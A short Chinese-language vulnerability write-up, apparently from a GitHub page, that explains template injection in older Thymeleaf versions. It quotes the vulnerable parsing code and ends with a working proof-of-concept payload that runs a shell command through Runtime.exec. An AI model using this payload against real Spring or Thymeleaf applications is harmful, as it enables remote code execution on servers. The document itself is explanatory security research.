 漏洞原因

在低版本的 Thymeleaf中存在如下片段：

```
try {
   // By parsing it as a standard expression, we might profit from the expression cache
   fragmentExpression = (FragmentExpression) parser.parseExpression(context, "~{" + viewTemplateName + "}");
}
```



当return "xxx"中xxx包含::的时候xxx会被解析成表达式，语法中${}为执行表达式，而__${}__则为无论前后为什么都先计算大括号里面的表达式，所以最后的poc：

__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("touch executed").getInputStream()).next()}__::



